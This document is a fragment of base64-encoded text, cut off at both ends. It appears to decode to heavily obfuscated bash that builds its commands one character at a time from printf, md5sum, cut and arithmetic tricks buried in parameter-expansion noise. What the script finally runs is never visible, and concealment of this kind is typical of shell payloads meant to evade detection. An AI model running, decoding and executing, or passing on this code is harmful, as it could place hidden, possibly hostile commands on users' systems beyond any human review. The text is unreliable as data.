HwgICQqICIibSdkJyR7KiVcKFFZPU8xfTUkeyolPSZMMnV5fXN1JydtICAgJHtAJW9xSGdtXFt2ZX0gfCAkeypefSAgIGMke0AvL2hmRXI7Ni85XHtaVV99dScnJCdceDc0JyAgIC1iICAgJCgoICgoMiMxJHsqJSVlZ2ZlfTAxKyR7QC8vXGAqXEVGNHI2L2JDMXhcKHV9LTMkeyojI0lcXVosfSMxMSkrMzMjZSkgKSktJFsgICgtKC0oJHsqL25HfjZcKFxdei9ce3hnSVxdXHt9NTgiIyJlLS0keyp+fTI5I3ApKzQiMCIjbikpICAgXSAgJHsqJSVqcnw8QjdcKHx9ICAkeyp+fSApIiAgJHsqXn0gJiYgICIke0AjI2hWcDdDfSIgICAiJHtAL09oajE9Ki9uK0RKXmJAU30iICIicCR7Kl59cicnaScnJCdcMTU2JyIke0AvZ1xdNGQ6bz0rfSJ0IiJcZiAgIlx4JCggICAiJHtALH0iICAgIiR7QC8vXjY1MnBcW2YvOTFEKlwidHxyfSIgIHAncicke0AvL1dcWH5SRC85endcfVB9aScnJ24ndCR7Kn5+fWYgJXMgICclUGUtTycgICAke0AjK0gyLVwhfSAgJHsqfn0gICB8ICAgJHtALy9Rd0o3YVZSL25+T0d9ICR7KiUlR1xbK0hXY0VKfSAgIFxtZCcnXDUke0AvL2lQREdTNVwiLypJR3JXKj59c3VtICR7Ki9vaVwpbX0gIHwgJHsqL2E3M0ZQVEN5fSAgIGN1dCAtYiAgICRbICAoKCR7Kl59MiIxIiMwKy0zJHsqI1x9SVZwYX0yIiMiMSkrJHtAL0B0PTNXLyVeVTArcklcXX0zIiMiMSIxIikgICBdLSRbICAgKCgiJHtAL2x4XGRUfkJpLzxrRXMwc30iLSR7Ki8vT3dcIXZuSk9UL2llSng2LX04IyIxIjArMiIjIjEiMSIpKyIzIiMxMCIke0AvOS50O3lTRn0iMCkgICBdICAgJHsqJSUuWnk/fSAgICR7QF5efSAgKSIgICIke0AjKlJkJHBcKTdyfSIgICA7ICAgJHsqI0g1Vz99ICBwJ3InaSIke0BefSJudCQnXDE0NicgIlx4JCggJHsqLy9IZjI+LzZWM1wifSAgJHtAfn59cCIiXHInJyR7KiUlclwhZFwoQH1pbid0J1xmICAlcyAgICd7MCpiMWhXJyAiJHtALCx9IiAgICR7KiUlLlpEOX0gfCAiJHtAJVxbMkZhJFFcYGF9IiAgXG0keyosLH1kJzUncyR7Kl59dSdtJyAkeyojXChtPWhLRnx9ICB8ICR7QCwsfSAgJHsqLCx9IFxjdXQgLWIgICQoKCAgKC0oLSgyIiMiIiR7QCNEWS5+VG99IjExKzEyIzE1KSsyIzEiMSIke0AlJTBNYXJGSH0wKSkgKSktJFsgKCgiJEAiLSR7KiUlcT1Gd3ZBM305IzEwLTIjJHsqLy9CXCFUJD1WfTEiMCIwKSsyIzExIjEiMDApICAgXSAgICR7KiwsfSAgKSIgICAkeyovREs9LmpRLGgvc1x7U1wiTSV9ICAgOyAgJHtAfn0gICR7Ki92dVwoVi9xTyZcIj5qfXAkJ1x4NzInJCdceDY5bickJ3RceDY2JyAgIlx4JCggJHsqLy9PXClce3xLLyxcMzNKSCRkfSBwcmludGYgICVzICAgJ2xrSkg9JyAke0BeXn0gfCAgJHtAL2U5XHtaR30gJHsqLy9WUiRpYj19ICAgJ20nJCdkXHgzNSckKnMnJ3UnbScgJHsqJSUrTl4+Ln0gIiR7QC8+Mks/eGxrfSIgfCAkeyp+fn0gIFxjIiR7QC8vZ3VDX25cIlJ9InV0ICAgLWIgJFsgICAoKC01IzEiMiIrJEAtIjMiIiMiMSIwIikrNTAjaykgXS0kWyAgICgtKC0oJEA1MSMiZyItMyRAIzEke0AvL1whfkw4UW5YOS83UUEqQX0wKSsiMyIiMiIkeyp9IzIpKSAgXSAgICR7QC9tazZcW1x9L0heVHZlXGBrfSAgJHsqL0dxXH1ZL2g9XCE1VX0gICApIiAgICR7QC8vWHFALjMvQlBcIS13dFM6fSAgOyAgJHsqL1woeVx7TFZlNy9CXFsjfFwoXCk4fSAgJCdcMTYwJ3JpXG4idCJmICJceCQoICAgJCogICJwIidyJ2knJyJuIicnJHtAJSUlaVpGZVxgPk99dFxmICAlcyAgJztkbyhnbScgICAke0AsLH0gIiR7QF5efSIgIHwgICAkeyosLH0gICAiJHtAXl59Im0kJ1wxNDQ1J3N1bSAgICIke0AsLH0iICAgJHsqJWsuXChDXGA1fSB8ICR7KiMjRkdTU30gICIiJ2MnJyd1XHQgICAtYiAgJFsgKCgtJHsqL2xcezsmPH02NCNhKjUjMTMpKzUjNDIwKSAgIF0tJCgoICAoKCI5IiMxMiotNSIyIiMxKSsiNCI5IyR7QCM8UCZZfUcpICApKSAgJHtALy9lZVwpLn0gICkiICR7QCV+JExCSUpHfSAgOyAkeyojekNAczZBVX0gICBwJ3InJHtAXn1pIm4iJHtAJTlBWDhQfXRmICAgIlx4JCggICAiJHtAJVN1YnlRPXdcKH0iICAgIiJwXHIiImkiIm50ZiAgJXMgICdGVFBeJyAgJHsqI1x7UFJNfSAgfCAgICIke0B+fSIgIG0iZCI1IiIkJ1x4NzN1bScgIiR7QCMjYXdcNHpKMGF9IiB8ICAke0AlWipcYC5lfSBjdXQgICAtYiAkKCggKCgiLSI1JHtALCx9MCIjImYrMiIzIiMiJHtAXn0iZCkrMzcjaCkgKSktJCgoICAgKC0oLSg0IjAiIiMiai0tNCIjIjEiMSIpKzIiIyIiMSIkeyojSU8uLCw9fTAiMCIkeyovL1dwKlpMXCIkfTApKSAgKSkgICAiJHtAJSUsM1Z1fSIgICApIiAgICR7QC9BZ2lsWkd9ICAmJiAiJHtAIyMlK3pcezF9IiAgIiR7QH5+fSIgICAiInByImkiJ24ndGYgICJceCQoICAgIiRAIiAgICR7KiwsfSAgIHByaSQnblx1MDA3NCcnZicgJXMgICddRUgoMX1cJyAgIiRAIiAgfCAke0BeXn0gICBtJCdceDY0JzUnJ3NcdScnbSAke0AjcT1cIVheTzZ9ICIke0AvLzt4bDJzXlQsL19eMWdYfSIgfCAgICR7Kn0gICAkeyojIy5nUFwhVX1jJCd1XDE2NCcgIC1iICAgJFsgKC0oLSgtMyMxMSoiJHtALH0iLTMiJHtAJSV3bGZFNn0iIzEkeyovLyZDPGkvbVx7S3p+Y30wKSskeyFAfTMjMTApKSAgIF0tJCgoICgoMzkjMSo1NCIjIiIyIikrMyR7KiwsfSMyMikgKSkgICAkeyEqfSAgKSIgICAkeyojOnN3ZndhVH0gICR7KiwsfSAgOyAgICR7Ki83V3xUVm45Wn0gICAkeyovL0NqaEdjP1MvYUxRRn0gJHsqfXAkJ1wxNjJcMTUxJ24ndCdmICJceCQoICAiJHtAL3BQfjY5fSIgcHJcaW4keyp+fn10ZiAgJXMgICdnRSplJyAgICIke0B+fn0iICR7Kl5efSAgIHwgICAiJHtALy8mY3Ikd30iICAgbWQiNSIiIiR7Ki9NUHIzJCtZfXMkeyosLH11JHtALCx9bSAgJHsqJSVcfUplPiYqfSAgfCAgJHsqLH0gICAkeyolNnVmK30gICBjdXQgICAtYiAgICQoKCAgKCgzIiMiIjEiIjAiKjQiNCIkKiMwKSsiMyIyI2QpICApKS0kKCggKC0oLSgiNSIwIyR7QC9SJnxEQC9NN1x9NDNNfXMtIjQiIjUiJHsqJSVPdyRYfSNiKSsiMyIkeyp+fn0jMTApKSAgICkpICAgJHsqIyNcOzQyPTZ9ICAkeypeXn0gICkiICAiJHtAXl59IiAgJHsqJVwpP1woal8ua30gOyAgIiR7QC8vb1dsbGpcXVxdL1IqNFx9fSIgICR7KiwsfSAgIHByaSIke0AvRTh+NE8mfSJuJyd0JHtAfWYgICJceCQoICR7QF5efSAgJydwJydcclxpJCduXHg3NCciImYgICAlcyAgJ3w8I2FLcj50JyAgICR7Ki8lSm5tSi94alxnfSAkeyosfSAgfCAgICIke0B+fn0iICIiJHsqLH1tXGQnJzVzJHtAfn11Im0iICAke0B9ICAkeyovLyUuND4vWVwoTS19IHwgIiR7QCMjLVxbc1x7RS59IiAkeyosLH0gICAnJ2N1J3QnICAgLWIgJFsgKC0oLSgiNiIiIyIxJHsqfn59NCsiJHtAXn0iMyIke0BeXn0iNiIjIm8pKzEiJHtALy95XHswTUl1b1whfSI4IyJkIikpIF0tJCgoICAgKC0oLSgyOCIke0AvYyQ9NSxuXCJsL3ouXHtAXCFcIn0iIzE5LSIke0B+fSItMjgjMSI5IikrJHsqfn59MTMjNDApKSAgKSkgJHsqXl59ICkiICAkeyovL1woXn5wLyNUQEIrfSAgICYmICAke0B9ICBwIiJyaVxuJ3QnJyckJ1x1MDA2NicgIlx4JCggICAkeyosfSAkeyovU01cIlFoVnN9ICAgcHIiIlxpbiIidCIiZiAlcyAgJ2tsTlMnICAkeyovL3w+bTZ9ICB8ICR7Ki9+VVNcXUg7Mn0gICBtXGQnNSdzdSQnXHg2ZCcgJHsqJUtcIlAlMGh9ICAgfCAgJCogICAiJHtALy9NS1wheC5JXi9xOmlcW2NcYDd9IiAgICJjInUiJHtAIzw8QGlRcjZ9InQgLWIgICAkWyAgKCgtMyMke0AvWHMuNUgkb2gvXz5hWn0yMioiMiI4IyR7Kn0wKSsxIjgiIiMiaCkgXS0kWyAgICgoIi0iIjMiIiMiMSR7QCNcKUBzT2F9MS02IjMiJHsqXl59IyR7KiM5PFUjXGBHNTx9YSkrMjQjMSR7QF5efTgpIF0gJHsqXn0gICkiICAiJHtAIyNhJUc8SU54fSIgJHsqI2g2aVR9ICAmJiAke0B+fn0gICR7KiNQRVwhLVwhfSAgcCIiclxpbiR7QC8vTDRwbVxdd310ZiAgIlx4JCggICAiJHtALy9cTWk/XCF1ZX0iIFxwJHsqL1hrMUAvQTVfbFNkeH1yaW50ZiAlcyAgJ21cXHxWJyAke0AlWmFEOyNOYn0gfCAgICR7QCx9ICAgbSIiJCdcdTAwNjQnNSJzIiIidW0gICR7Ki9yaVk4NlxGfSAgJHtAJSVNTyZifSAgfCAiJHtAL291S3E3LjBcIS9EXzc2UTtRZH0iICR7KiwsfSAgICQnXHUwMDYzJycndXQgIC1iICAkWyAgICgoMTIjMSo1MiMwKSszIyIyIjIpIF0tJCgoICAgKCgkeyEqfS00NCMyLSR7KiMjTTE9M3RvfS0yIzExMSkrNCMkeyovI0NRWUN9MSIwIikgICApKSAkeyFAfSApIiAke0B9ICAgJHsqLy9cKUBSMy9Abj5oUXFJYn0gICYmICAgIiR7QCMjU2szQ2p9IiAgICR7Ki8vXmQyeSRYPUovfiU1JjxEfSAgICR7Kn59cCIke0BeXn0icmkkeyp+fW4kJ1x4NzRmJyAgIlx4JCggICAkeypeXn0gcCQnclwxNTEnXG50JCdcMTQ2JyAlcyAgICdCakwpZCp4JyAkeyp+fSAkeypeXn0gIHwgJHtALCx9IG1cZFw1JCdceDczJyd1J20gICRAICAgJHsqfn59IHwgJHsqfn0gImMiJCd1XHUwMDc0JyAgLWIgJFsgKCg0MSMyLSItIjQjMTEpKzEkeyojI1RGQlB9NCNiKSAgXS0kWyAgICgoLSRANCMiMiIiMSIwKzUzIyIkQCJ6KSsxIjYiIzEkKjQpICAgXSAgJHtAfSAgJHsqXl59ICApIiAgJHsqI0ZCPFpfdX0gICAiJHtAfn59IiAgIDsgICIke0AvL0lpeGw+c2IvJE1qYX0iICR7Ki9VM0Utd30gICBwXHInJ2ludCdmJyAgIlx4JCggICAiJHtAXl59IiAgJHsqLH0gICAkJ3BceDcyJyJpIiIke0AjI0VOUVxgZy5ce30iblx0ImYiICAlcyAgICd+SG5dK3ksKicgICR7QC9AVnk+N2t9ICQqICB8ICAgJHtAL1RkUzlTJC9wYixEMn0gICAiJHtAL1woP2l2fSIgICAkJ1x1MDA2ZCdkJFsgICgtKC0oNTMjYS0tIjIiIzExKSsiNyIjMSR7Ki86RlRzWn0xKSkgIF0nJ3N1bSAgICR7KiUlXFtcW3IwSVBPfSAgfCAgJHtAJSVcKXQ8Sn0gICIkQCIgIGMnJ3UnJyQnXHUwMDc0JyAgLWIgICAkWyAgKCgke0AlPEZOS3V9LTYxIiMicCskeyovL21MXChFfTQiNiIjcikrMSIzIiMkeyEqfTIiMSIpICBdLSRbICAoKCI1IiIyIiNyKy0iJEAiNiIke0AsfSIjJHsqfn59MiIxIikrMTcjImciKSBdICAkeyovL1lqYj56Li4vJFZvcjswfSAke0AsfSAgICkiICAkeyosfSAgICR7QC9yPmVSQjhcKC9vUVA9YWR9ICAgOyAgICR7Kix9ICcncCJyIlxpbicndFxmICJceCQoICAkeyovL01oYlFaNCNkL0JmST59ICR7KiUlTFxEXGB9ICAgcHIkJ1x1MDA2OScnJyQnXHg2ZSd0J2YnICVzICAnN3dxUycgJHsqLH0gICR7KiUlb2s8WGhzYX0gICB8ICR7KiUlTXhJOUZUOC59ICAkeyp9ICBcbWQkJ1x1MDAzNSciInMnJyIke0B+fSJ1bSAgICR7Kl59ICAgfCAgIiR7QCVheDdcIkN9IiAgICR7Kn0gICAiImNcdSJ0IiAgLWIgICQoKCAgKCgtNiIjIiIxIiokeyolJSVWOkp9LTIiMCIiIyIyKSs0IiR7QC8vZVVNXCh9IiMiMSIwKSApKS0kKCggICgoIi0iIjIiIyIke0B+fn0iMSR7QCM9WExPSlI7fTAiMCIrIi0iJHsqLH0zIzEyKSsyIzEiMCIwIjAiJHtAJTJcXXBQKjtyfTApICAgKSkgICR7IUB9ICkiICAgJHsqXn0gICIke0B+fn0iICAmJiAgICR7QC9ScXR0Xi9sVX5jRUJ9ICAgJHtAXl59ICAkJ1wxNjByJyIiJCdcdTAwNjknJHsqXn1udCdmJyAiXHgkKCAgJHtALy9sflRWPlE7Ni9tXChcKHx9IHByaW5cdCIiZiAgICVzICAgJ3t1PSEqJyAkKiAgJHsqfn0gfCAiJHtAL1EqJiMwfSIgJCdcdTAwNmQnJydkIiI1IiR7QF59InMkJ1wxNjUnbSAiJHtAXl59IiB8ICAgIiR7QCwsfSIgICAkeyp+fSAnYydcdSR7QF5efXQgLWIgJFsgICAoKCItIjUke0AsLH0jMS00IjgiJHsqI1xgPmxAWHx9I3QpKyR7Kl59MjciIyIyNikgICBdLSQoKCAgKC0oLSgyMSIke0AsLH0iIyIyIjYtLTUiJHtAI0dlRnV9IiMxJHtAXl59MCkrMTMjJHtAJUZzJmZ9MTkpKSAgICkpICR7Kn0gICApIiAiJHtAJTlcfUg2fSIgICAmJiAgJHtAfn59ICBwcmkkeyEqfW4nJ3QnZicgICJceCQoICR7Kn5+fSAgJ3AncicnJHsqXl59aW50ImYiICVzICAgJylLbH5EKCcgICR7Kl5efSAgIHwgICR7Kn5+fSAkeyolVlxgP1ArfSAgICdtJ2QiIiQnXHgzNSdzJyd1bSAgJHsqXl59ICAgfCAgICR7Ki8vNFlHbFpCfSAgIiR7QCUlaGN3XHt4PH0iICAgY1x1JHsqLy87ZGRePCYvbTY6MH10IC1iICRbICAoKCItIjQ5IiMiYSsiNCIwI3EpKzUjMTApICBdLSRbICgoLTUkeyolP25RbVwhSX0jMSIwIiokeypeXn0tNDUjMSkrMTMkeyFAfSMxNCkgICBdICAiJHtALzZjSE49XFx9IiAgICkiICQqICAiJEAiICAgJiYgICAkKiAgICR7Kl59IHByXGknJ24nJyR7Ki8vU1x9Y34xfXQiImYgICAiXHgkKCAgICR7Kix9IFxwciIke0BeXn0iaW50XGYgICVzICdZI106WCcgICR7Kn59ICAgIiR7QF5efSIgICB8ICAke0AvR2hmMUwvbXosbzEyT0x9ICR7QC8vJGVOMWsvLFw8TWV9ICAgbSJkIlw1c3Uke0BeXn1tICR7Kix9ICR7KiwsfSAgIHwgICAke0AvaS1Wc3x2L1dJWWppfSAiJHtAL1wtPlxdfSIgICAkJ2NcMTY1J3QgLWIgICAkKCggICgoLSR7Ki9AQz50PH0yNSMiMSJsKy0iNCI2I2kpKzUjJHtAL25Rfj9tK3g0fTMzJHtAJWckeVU3Mn0zKSAgICkpLSQoKCAoKCIxIjkjYyotNSMiJEAiMTMpKzYwJHsqLy8tTVZrblgtdH0jMiR7Ki9cYE9xUlV9NikgICkpICR7Kn5+fSAgJHsqIyM3XClcYHVcIjFiYX0gICApIiAgIiR7QH5+fSIgICR7Ki8vVVVabHxcKH0gICA7ICAgIiR7QCx9IiAgJCdceDcwcidpJ24nXHQnJyJmIiAgIlx4JCggICAkeyojI0NNbm18XFx9ICAke0AsLH0gJHtALH1wJHtAL3Vmek0jYmgtfXIkeyosfWkibiIkJ1x1MDA3NCckJ1x1MDA2NicgJXMgICAnRypBfWMyNj0nICR7KiU7aV9OOX0gfCAgICR7QCVuXGBjPndpfSAgJHsqI3hNcXl9IFxtZDUicyJ1J20nICR7QCUldGYsMFx9fSAgICQqICB8ICAiJHtALCx9IiAnYyckJ1x1MDA3NScidCIgICAtYiAgJFsgICAoLSgtKDIiNSIjJHtAXl59Mi0tNSR7Ki9nQ0NpR3B9MSMkeypeXn1nKSskeyosLH0zIyIxIjIpKSBdLSQoKCAoLSgtKDIiIyIiMSIxKzIke0BefTkjJHtALy9HXGBVTD9cXVp9aSkrMiIjIjEiJHtAXl59IjExKSkgKSkgJHsqJThNPEdpJWx+fSApIiAkeyolbEFTQX0gICAkeyovL0w7fl5XL0hcKWRFfSA7ICAke0AjIyVQSCN9ICAkQCAgIHAiIlxyImkiXG50XGYgICJceCQoICAgJHtALCx9ICdwJycncmkke0AsfW50ZiAlcyAgJ0x5OmtSPScgICAkQCAgICR7QC8vaTtYYi9cInArRzhzXChefSAgIHwgJCogJHtAJVpFbVxcfSAiJHtALCx9Im1kNSQnXHUwMDczdW0nICR7Kn59ICB8ICR7QC9zSWNSXH10ay9SdWNTVSt9ICAgJCpjInUidCAgIC1iICQoKCAoLSgtKDM4I3otIi0iIjIiIyR7QC8vKl5xYkwrQ2h9MSIwIiIxIikrIjYiMiIjImgpKSAgICkpLSQoKCAgKCg1IiMiMSR7Kl59MCotMiMxIjEiMSkrNCR7Kn03JHsqLCx9IyIxImMpICkpICAgJHsqLH0gICAkeyojI2xcIlpYXGwkaX0gICkiICAkeyp+fSAmJiAgICR7KiUlcDZOSXF9ICAgXHByIiJpbiQnXHg3NCdmICAiXHgkKCAgJHsqJSUyNl5YZSN+fSAiJHtAfn59IiAgIHByaSIiJCdcMTU2JyQnXHUwMDc0J2YgICAlcyAgJz1AKihOJyAkeyosLH0gfCAkeypeXn0gICIibWQiIiR7KiVce15ITD10a301c3VtICAkeyojI3I9Ln5SdH0gJHtAXl59ICAgfCAgICIke0AjI3VGXzwjYUEzfSIgICR7QF5efSAgIiIkJ1x1MDA2MyciIlx1IiR7QH59InQgICAtYiAgJFsgICgoMzMjYy01JHsqXn0jMTApKyR7QH59NCIxIiR7KiwsfSNtKSAgIF0tJFsgKCgiJHtAIyNSPlxbR2t9IjMyI2YqIiR7QF59IjI4JEAjIjAiKSszIzEwMTApICBdICAgIiR7QF59IiAkeyojaiVuUTF0JX0gICApIiAke0B+fn0gICR7Ki9IVFx9Xi9oM1xdcX0gICAmJiAgICR7KiwsfSAkeypefSAgIHAkeyp+fXIiIiQnaVx4NmUndCIiZiAgICJceCQoICAgJHtALH0gICAkeyovXF1FLHEvbVwibDR9ICAgcHIkJ1x1MDA2OScibiJ0ZiAgICVzICciOT5OSUJmJyAke0B9ICB8ICAiJHtAfn0iICAgbSdkJyQnXDY1JyJzIiQndVwxNTUnICIke0B+fSIgICIkQCIgfCAgJHsqLy9pTUp8T30gICAkeyosLH0gJCdcMTQzXDE2NScke0B+fn10ICAgLWIgJFsgICgoLTYiIyIxMysiNiIjIjEiMCkrMTMjYykgICBdLSRbICgoLTI2IzIrLTgjMSR7QC9PNlx7RXlLfTApKyI2IiIke0BeXn0iNCIjImspICAgXSAgICR7QC8vUFFJXHtIXyp9ICAgJHtALy8kbUpEaS9cKEZZLn0gICApIiAgJHsqL0h1XChZd30gICYmICR7KiMjejw1LittfSAgICIke0B9IiAgcCIicmludCcnZiAgIlx4JCggICIke0AsfSIgICAiIlxwJCdceDcyJyR7KiUlSkcsTSx9aW50XGYgICVzICAnMF5BTX5sJyAkeyp9ICAiJHtALy9acC4yWnd9IiB8ICAgJHsqLy9DemtcYH0gICAiJHtAL3VQNlwoJnxcIS9TU2hIfHd9IiAgIG0nJyR7Ki8vZD9YSUNIfWQnNScnJyR7Ki8vV0VfXlxdWXMkL35EbG1cYHg1bn1zXHVtICR7IUB9ICR7IUB9ICAgfCAgICR7Ki8vWDNCMVxbbGx9ICAnYycidSIiInQgICAtYiAkWyAgKC0oLSgxNCMyZC0iMyI3I2IpKzUjIjEiMykpIF0tJCgoICAgKC0oLSg1IzEyNC0iNSI5IiMiYikrIjIiIiMiMTAxKSkgICApKSAgIiR7QCUlNWxCYSZQfSIgJHsqLH0gKSIgJHtALy94MElyUWM7Lzp8bGp+fSAiJHtAXl59IiA7ICAke0B+fn0gICAicCJyXGluXHRmICAgIlx4JCggJHshKn0gIHAkJ3JceDY5biciIiR7IUB9dGYgICAlcyAnQ3lHImBvJyAgICIke0BefSIgICB8ICR7KiUlVitRMj1IKjJ9ICAgJHsqXn0gbSQnXHUwMDY0JyR7QH01XHMke0BefXVcbSAgJHsqLy9neFVfdVxcfSAgICR7QH59ICAgfCAgICR7ISp9ICR7QC9cYEpQRFV9IGN1dCAgLWIgJCgoICgoJHsqLy9BWC5LPGUvM1xdUlwoRFRjfS0zIyR7KiwsfTIwKzMjMTEpKyI0IiMxMikgKSktJCgoICgoLSR7Ki88XCg6bi4tNk0vaEdtZlZ+a1wpfTQxIyIxIiotOSIke0AvL1woNXVeZWRmfSIjMSkrIjMiIzExKSAgKSkgICRAICAiJHtAfn0iICApIiAiJHtAIyM6NDJ5QVx0fSIgICAmJiAgIiRAIiAgICR7QC9kflwhQX0gcHJpXG50ZiAiXHgkKCAgICIke0B+fSIgJyckJ3BcMTYyXDE1MW4nInQiIiJmICAlcyAgJ2VfI0AnICAgJHsqXn0gICB8ICAgIiR7QCwsfSIgICIke0AjI2JcISwqOn0iICAgbVxkXDUkeypeXn1zInUiIm0iICR7KiUxfFx9U0RzfSAgIiRAIiB8ICAgJHtALy9cKEZAUn5RfSAkJ1wxNDMnIiIkeyp+fXV0ICAgLWIgICAkWyAgICgoJHsqJVx9TFwpTSNSfS0iNiIjNDArJHtAIyxrXF1CfTM2IiMiIiR7QF5efSJnKSszOCIjIiR7Ki9oWFwpXChmL2d6Vyx9dikgIF0tJCgoICAgKC0oLSg0JHsqJTJAUyRCWkZofTAjby0ke0AsfS00IzEwKSsyIzEwMCkpICApKSAgIiRAIiAgICR7Kn5+fSApIiAgJHsqLy81NGdmL1pQPFwhSH0gICAmJiAiJHtAL0JcIlx9P3RfOVEvdS49aW9MPX0iICR7KiNcImNKaH0gICBccCQnXDE2MicnJ2luIiJ0ZiAgIlx4JCggICAkeyEqfSAgJHtAfSAncCcnJ3IkJ1wxNTEnXG4iInRcZiAlcyAgJzlDcWUnICR7QC8vRVwiXCkva0FrS1woQTh9ICAgfCAgICR7KiViWFdNfSAkJ1x1MDA2ZCckJ2RcNjUnXHN1IiR7QH59Im0gJHsqXl59ICAkQCAgIHwgICAkeyp+fSAgIiR7QCMxWSQ7fSIgICcnY3V0ICAtYiAkKCggICAoKC00IzEzKiI0IiR7Kl59MyMiMiIpKyI0IjkjInYiKSAgKSktJFsgKCgtIjMiIyR7Ki8vbW4kJXd9MTAqMiMiMSIwMCkrNCI5IiN1KSBdICR7Kix9ICApIiAkeyosLH0gICR7Kix9ICAgJiYgICAkeyolJVdcKXVLcH0gICAiJHtALy86WVB8JiZcXH0iICcncHIke0B9aW4idCJmICAgIlx4JCggJHsqL1oycTR9IHByIiJpIiR7QH5+fSJuJCdcdTAwNzRmJyAlcyAgJ0lTQW1iJyAiJHtAL0QsU091dUQ0L0FoU3lcIn0iICAgfCAgICIke0BefSIgJycnbSdkNSQnXDE2Myd1bSAgJHtAfn59ICB8ICAke0AlJU1nS2J9ICBcY3UiInQgLWIgJFsgICgtKC0oNCMxLS0xOSMyKSsiMiIiMCIiIyIxKSkgICBdLSRbICAoLSgtKCI0IiMiJEAiMSIke0AjIzV6OHdmWGN9IjEtIiR7QCUlXCJ1UytffSIxIiR7QH59IjEjMikrNDAjMCkpIF0gJHtAJSVxK1x9eVxgS30gICIkQCIgICkiICAgJHsqL1woRlxbNnFGcEd9ICAgOyAgJHtAIyNORU1WR1xgU30gcHIiImluXHRmICAiXHgkKCAgJHsqL0I9X21ML3dcYERyaz0mZH0gIHBcciIiaW5cdCQnXHUwMDY2JyAgJXMgICdUeXJtc0ZnJyAgJHsqL0dcKURDXHtcISp9ICAke0Ala2NSNTl2fSB8ICAiJHtAfn59IiAke0AjN0Y/Kj40OlxgfSAgIFxtJ2QnNXMkJ3VcdTAwNmQnICIke0BefSIgICAiJHtAfn59IiAgfCAgICR7KiwsfSAkJ1wxNDMnIiIkeyolJVlYOiVzbVVvfXUnJyJ0IiAtYiAgICRbICAoKCR7QCMjLTMlTX0tIiR7QCwsfSIyIzEkeyosfTAwMDErLTgiIyIxMCkrOCIjIjQzKSAgIF0tJCgoICgoMiR7KiwsfTUjIjEiKi0keypeXn01JHsqXl59IzEpKyI4IiMke0AlMj8scHxJPn0xNCkgKSkgICAkeyojI0dAOEt9ICAgJHtAL3d3VVZufSAgKSIgJHsqL3krOWdhfSA7ICAgJHsqfn59ICAgJHsqL007XChGdDJIfSAgcHInJyIke0AvVmtva2J9Imkke0AlQ1VIOn1uIiJ0IiIkJ1wxNDYnICJceCQoICR7Kn59IHByJ2knbiR7KiMjUkJcKXh9dCIiJCdcMTQ2JyAlcyAgJ286X0xvXHAnICAgJHtAXl59ICAgJHtAIyNITmVHOStefSB8ICAgJHsqLy9Tdjc5Wnh9ICAgJHsqLy9eWmI8fSAgbSIiJHtAfn59ZCQoKCAgICgtKC0oLSR7Ki9fI3Jce0AvVy5GPX0yIiR7QC9MLlwpdS9RXHtCXF1GfSIjJHtAL1x7V1x9Mi9pXCkjan0xMS0tNiIjIjEzKSszIzEpKSApKSIiJCdcMTYzJyJ1Im0gICAiJHtAXn0iICR7Ki8vbDhnb1V9ICB8ICAkeyFAfSAgYyQndVx4NzQnICAtYiAgICQoKCAgICgoIiR7QCUlcjVcXVImfSItNSMxIjAiLTYkeyolJCpcW259IzEyKSsxJHsqJXxmQVxXXGBAYX0zIiR7QCwsfSIjMSR7Ki8vTjBcXVxgLm59OCkgKSktJFsgICgoMjYkKiMwKiR7IUB9NiQqIyIxIikrOSMxIjAiKSBdICAkeyp9ICApIiAgICQqICAkeyFAfSAgICYmICR7QH0gXHAkJ1x1MDA3MickeyojI3lZQyZCI31pXG4iInRcZiAgIlx4JCggJHtAXn0gIiR7QH0iICAgInAiJ3InImkiJycibiIkJ1x1MDA3NCciZiIgICAlcyAgICdAYkRvJT0+WCcgICR7KiUlYm9BKm04fSAgfCAgICIke0B+fn0iICAkeyolJS5uVl9cKGIjQX0gJCdtXDE0NCciJHtAJSVeWH5kXH19IjVzXHUnbScgICAkeyojIzVGUzt3fSAgICQqIHwgIiR7QH59IiAgYyR7QF5efXUkeyosLH10IC1iICQoKCAgICgoIi0iNCIke0AlJXo3JCNpfSI1I2UrLTQkeyolJT5jWTYmRFx7Vn0zIiMiImMiKSs1NCMiJHtAfSJFKSAgKSktJCgoICgoLTQiIyIxIiR7QF59IjEiJHtALy85KzNLWiZ9IjMrNDEjaCkrIjgiIzI1KSApKSAgICR7KiUlSmVyd2xxWWh9ICAgJHtAL1NXXCl3YT92L1woelNQZGE7fSAgICkiICR7KiwsfSAgJHsqLCx9ICA7ICAgJHsqLy91XF1SXFt9ICBwXHIke0AsfWlcbicndGYgICJceCQoICAkeyojI2ZfcXV9ICAgJHsqLH0gJCdwXDE2MiciaSInbid0JHsqXl59ZiAgJXMgJz1pXVAnICAkeyolJVxgSFwufSB8ICAkeyp+fn0gICBcbWRcNSIic3VtICAkeyolbU1pXDZcI30gJHshQH0gfCAgJHsqJVU9aj55XF19ICAgIiR7QCMjST89UX5VVH0iICBjIiJcdXQgLWIgJCgoICgoOSMwKiR7Kn0tIjIiMSMxKSs5IzEwKSAgKSktJFsgICAoKDUwJHtALH0jMS0keyp+fn0yJHtALH0jMTAwKSs0IjMiI2QpICAgXSAgJHtAL3lTXHtKK2Z1LyRENkZ8K30gICIke0AsfSIgKSIgICR7Ki8vSU9WXCgvVUtBVGJ9ICAgOyAgJHsqI3MrWTt9ICR7QCx9ICJwIiIiJ3InJCdcMTUxbnQnIiJmICAiXHgkKCAkeyolJTZfYkp9ICAkeyp+fn0gICBwJydyJCdcMTUxJycnXG4nJyR7Kix9dCcnJHsqXn1mICAlcyAgJytTbEAnICR7Kn0gfCAiJHtAIyRubkA3RCVpfSIgICR7Kn5+fSAgICQnXHg2ZCciZCIkJ1x1MDAzNScnJ3N1J20nICR7IUB9IHwgICAiJHtAJSU4PHJ4Jm59IiAgICQnXHg2M3UndCAgLWIgICAkWyAgICgoLTU0IyJpIi0xIjUiIiMiMSR7Ki9UeVxXfTApKyIkQCIzOSMkeyovL01EbD9cfSs3L2V5ZH53Pn0xJHtAJWVMXF1WIzpran1uKSAgXS0kWyAoKCR7IUB9LTIkeyojZFR8fDx9NyR7Ki8vUWpTV3J1cH0jaS0keyolJTBcN3M1fTQiJHtAfSI3I3MpKzIiOSIjMmkpICBdICR7Kn5+fSAgICkiICR7Kn5+fSAiJHtALH0iICYmICAke0BeXn0gICAiJHtAIzxkMyxcW1Z9IiAgIHAkJ1x1MDA3Mlx1MDA2OW50JyQnXHUwMDY2JyAgICJceCQoICAke0AjI34tUlZybV59ICAgcCIke0AjIz4ldmomLTszfSJyaSIibid0JycnZiAgJXMgICAnWm9iXndXMUonICAiJHtALCx9IiAke0AvXHtYUDUrVzl1L3VYOnI9dT